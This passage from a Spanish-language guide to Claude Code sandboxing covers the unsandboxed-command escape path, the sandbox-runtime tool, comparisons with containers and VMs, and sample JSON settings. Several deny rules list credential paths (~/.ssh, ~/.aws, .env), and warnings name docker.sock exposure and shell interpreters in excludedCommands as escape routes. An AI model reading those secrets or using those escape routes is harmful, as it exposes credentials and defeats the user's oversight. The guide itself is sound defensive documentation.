| `enableWeakerNestedSandbox: true` | 🟠 | Solo si el contenedor externo ya aísla |

---

## 🔴 Nivel 4 — Herramientas incompatibles y vías de escape

### Herramientas con problemas conocidos

| Herramienta | Problema | Solución |
|-------------|----------|----------|
| `docker`, `docker compose` | Necesita acceso al socket del demonio | `excludedCommands` (asumiendo el riesgo) |
| `watchman` (usado por Jest) | Necesita acceso fuera del sandbox | `jest --no-watchman` |
| Servidores de desarrollo | Necesitan abrir puertos | `network.allowLocalBinding: true` |
| Herramientas con caché global (`~/.npm`, `~/.nuget`) | Escriben fuera del proyecto | Configurar la caché dentro del proyecto o ampliar rutas de escritura de forma explícita |
| CLIs que abren el navegador (login OAuth) | Requieren lanzar procesos externos | Hacer el login fuera de Claude Code |

### La vía de escape

```
   Comando falla dentro del sandbox (p. ej. EPERM, conexión rechazada)
                              │
                              ▼
         ¿allowUnsandboxedCommands = true?
             │                         │
            no                        sí
             │                         │
             ▼                         ▼
     ⛔ Claude ve el error     Claude puede reintentar FUERA del sandbox
        y debe buscar otra                     │
        solución                               ▼
                               Flujo NORMAL de permisos
                               (nunca auto-allow)
                                               │
                                    ┌──────────┴──────────┐
                                    ▼                     ▼
                               apruebas ✅           rechazas ⛔
```

> [!WARNING]
> Si aparece un diálogo para ejecutar un comando **fuera del sandbox**, léelo con más atención que cualquier otro: es justo el tipo de acción que el sandbox existe para impedir. En entornos estrictos, desactiva la vía de escape con `"allowUnsandboxedCommands": false`.

---

## 🔴 Nivel 5 — Sandbox Runtime fuera de Claude Code

El motor del sandbox es de código abierto: **`@anthropic-ai/sandbox-runtime`** (`srt`). Sirve para aislar **cualquier** programa, no solo a Claude Code.

```bash
# Ejecutar un comando aislado
npx @anthropic-ai/sandbox-runtime <comando>

# Ejemplo: aislar un servidor MCP local
npx @anthropic-ai/sandbox-runtime node ./mi-servidor-mcp.js
```

Casos de uso avanzados:

| Caso | Beneficio |
|------|-----------|
| **Servidores MCP locales** | No corren dentro del sandbox de Claude Code; `srt` les aplica límites propios |
| **Scripts de terceros** | Ejecutar un instalador o script descargado sin darle acceso a tu home ni a internet |
| **Agentes propios** (Agent SDK) | Reutilizar el mismo modelo de aislamiento en tus herramientas |
| **CI** | Limitar la red de un job a los registros de paquetes |

> [!NOTE]
> Revisa el repositorio del paquete para conocer el formato de su archivo de configuración y las versiones soportadas antes de usarlo en producción.

---

## 🔴 Nivel 5 — Sandbox vs contenedores vs VMs

| Criterio | Sandbox de Claude Code | Devcontainer / Docker | Máquina virtual |
|----------|:----------------------:|:---------------------:|:---------------:|
| Configuración | Mínima (`/sandbox`) | Media (`devcontainer.json`) | Alta |
| Arranque | Instantáneo | Segundos | Minutos |
| Aislamiento de filesystem | ✅ Por rutas | ✅ Filesystem propio | ✅ Total |
| Aislamiento de red | ✅ Por dominio (proxy) | 🟡 Requiere firewall propio | 🟡 Requiere configuración |
| Aislamiento del kernel | ❌ Comparte el kernel | ❌ Comparte el kernel | ✅ Kernel propio |
| Usa tus herramientas locales | ✅ | ❌ Hay que instalarlas | ❌ |
| Adecuado para `bypassPermissions` | ❌ | ✅ (desechable) | ✅ |
| Ideal para | Desarrollo diario con más autonomía | Autonomía total reproducible | Máximo aislamiento, código no confiable |

```
 Menos aislamiento                                         Más aislamiento
 Más comodidad                                             Más coste
 ◄─────────────────────────────────────────────────────────────────────────►
  Solo permisos   Permisos + Sandbox   Devcontainer + Sandbox     VM efímera
       │                 │                     │                     │
   repo propio,     desarrollo diario     autonomía alta,       código no
   supervisado      con auto-allow        equipo / CI           confiable
```

> [!TIP]
> Las capas **se pueden combinar**: un devcontainer con el sandbox activado dentro (en Linux puede requerir `enableWeakerNestedSandbox`) da filesystem desechable **y** control de red por dominio.

---

## 📦 Configuraciones de referencia

### 1. Desarrollo diario (equilibrio)

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "network": { "allowLocalBinding": true }
  },
  "permissions": {
    "allow": ["WebFetch(domain:registry.npmjs.org)", "WebFetch(domain:api.nuget.org)"],
    "ask":   ["Bash(git push *)"],
    "deny":  ["Read(**/.env)", "Read(~/.ssh/**)", "Read(~/.aws/**)"]
  }
}
```

### 2. Repositorio desconocido o código no confiable (estricto)

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": false,
    "allowUnsandboxedCommands": false,
    "excludedCommands": []
  },
  "permissions": {
    "defaultMode": "default",
    "deny": ["Read(~/**)", "WebFetch"]
  }
}
```

### 3. Agente autónomo en tareas largas

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "allowUnsandboxedCommands": false
  },
  "permissions": {
    "defaultMode": "acceptEdits",
    "allow": ["WebFetch(domain:registry.npmjs.org)"],
    "deny":  ["Read(**/.env)", "Bash(git push *)"]
  }
}
```
El SO limita archivos y red, las ediciones fluyen y nada sale del repositorio sin tu intervención.

### 4. Política de organización (settings gestionados)

```json
{
  "sandbox": {
    "enabled": true,
    "allowUnsandboxedCommands": false
  },
  "permissions": {
    "disableBypassPermissionsMode": "disable",
    "deny": ["Read(~/.ssh/**)", "Read(~/.aws/**)", "Read(**/.env)"]
  }
}
```

---

## 🩺 Diagnóstico de problemas

| Síntoma | Causa probable | Solución |
|---------|----------------|----------|
| `/sandbox` no aparece o no se activa | Plataforma no soportada (Windows nativo, WSL1) | Usar macOS, Linux o WSL2 |
| Error al iniciar el sandbox en Linux | Falta `bubblewrap` o `socat` | Instalar los paquetes |
| `Operation not permitted` / `EPERM` al escribir | Escritura fuera del directorio de trabajo | Escribir dentro del proyecto o ampliar rutas de forma explícita |
| `npm install` / `dotnet restore` falla por red | Dominio del registro no permitido | `allow: WebFetch(domain:...)` del registro |
| Fallan las peticiones a dominios internos | Dominio corporativo no listado o proxy corporativo | Añadir el dominio o configurar `httpProxyPort` |
| Jest se queda colgado | `watchman` incompatible | `jest --no-watchman` |
| `docker` no funciona | Necesita el socket del demonio | `excludedCommands` (evaluando el riesgo) |
| El servidor de desarrollo no arranca | No se permite abrir puertos | `network.allowLocalBinding: true` |
| Linux dentro de Docker: el sandbox no arranca | Faltan privilegios para espacios de nombres | `enableWeakerNestedSandbox` (solo si el contenedor ya aísla) |
| Siguen apareciendo muchos diálogos | Modo de permisos regulares | Activar auto-allow en `/sandbox` |

---

## ✅ Checklist de experto

**Fundamentos**
- [ ] Sé explicar la diferencia entre permisos (intención) y sandbox (capacidad).
- [ ] Sé que el sandbox aplica a `Bash` y a sus procesos hijos, no a `Read`, `Edit`, `WebFetch` ni MCP.
- [ ] Conozco el comportamiento por defecto: leer en todo el disco, escribir solo en el proyecto, red solo a dominios aprobados.

**Configuración**
- [ ] Mis reglas `deny: Read/Edit` protegen secretos y el sandbox las hace cumplir.
- [ ] Mi lista de dominios es mínima y concreta.
- [ ] Elegí conscientemente entre auto-allow y permisos regulares.
- [ ] Tengo `allowUnsandboxedCommands: false` donde el riesgo lo justifica.

**Seguridad avanzada**
- [ ] No expongo `docker.sock` ni sockets de agentes.
- [ ] `excludedCommands` contiene solo lo imprescindible y nunca un intérprete de shell.
- [ ] Reviso con especial atención cualquier diálogo para ejecutar fuera del sandbox.
- [ ] Sé cuándo pasar a devcontainer o VM.
- [ ] Uso `@anthropic-ai/sandbox-runtime` para aislar servidores MCP o scripts de terceros.

**Plataforma**
- [ ] En Windows trabajo en WSL2, con el repositorio dentro del filesystem de Linux.

---

> 📚 **Referencia oficial:** [Sandboxing](https://docs.anthropic.com/en/docs/claude-code/sandboxing) · [Settings](https://docs.anthropic.com/en/docs/claude-code/settings) · [Permisos (IAM)](https://docs.anthropic.com/en/docs/claude-code/iam) · [Devcontainers](https://docs.anthropic.com/en/docs/claude-code/devcontainer) · [sandbox-runtime (GitHub)](https://github.com/anthropic-experimental/sandbox-runtime)
